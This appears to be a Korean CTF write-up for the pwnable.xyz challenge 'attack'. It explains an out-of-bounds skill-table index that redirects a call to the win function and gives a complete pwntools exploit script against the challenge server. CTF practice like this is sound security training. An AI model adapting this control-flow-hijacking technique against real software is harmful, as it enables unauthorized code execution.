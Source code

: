 ```yaml
---
title: "[pwnable.xyz]attack"
date: 2020-5-1
ctf: Pwnable.xyz
layout: post
---
```


바이너리가 좀 크지만 인풋 받는곳에서 취약점 터지는거 알면 쉽게 풀 수 있다. level1을 만들고 win주소를 player.Equip.Name에 박아놓고 level2를 만들고 skill change할 때 SkillTable에서 oob가 터져서 바꿀 수 있다 그리고 3번 메뉴로 나가서 전투에서 스킬 사용하면 win함수가 호출된다.

> exploit.py

```python
from pwn import *

e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30020)
win = e.symbols['win']
level = 0
SkillTable = 0x00000000006046E0
player_equip = 0x0000000000604288 + 0xd0 # player.Equip.Name

get = ['Which skill do you want to use : ','Do you want to change your equip (y/n)? : '
,'Do you want to change the type of your skills (y/n)? : ','Which skill do you want to change (3 to exit): ']
# log.info(a[-1])
while True:
	sleep(1)
	a=p.read().split('\n')[-1]
	log.info(a)
	if get[0] == a:
		p.sendline('1')
		p.sendlineafter('Which target you want to use that skill on :','0')
	elif get[1] == a:
		p.sendline('y')
		p.sendlineafter('Name for your equip: ',p64(win))
	elif get[2] == a:
		p.sendline('y')
		p.sendlineafter('Which skill do you want to change (3 to exit): ','1')
		p.sendlineafter('What type of skill is this (0: Heal, 1: Attack): ',str((player_equip-SkillTable)/8))
	elif get[3] == a:
		p.sendline('3')
		p.sendlineafter('Which skill do you want to use : ','1')
		p.sendlineafter('Which target you want to use that skill on :','0')
		p.interactive()

p.interactive()
```

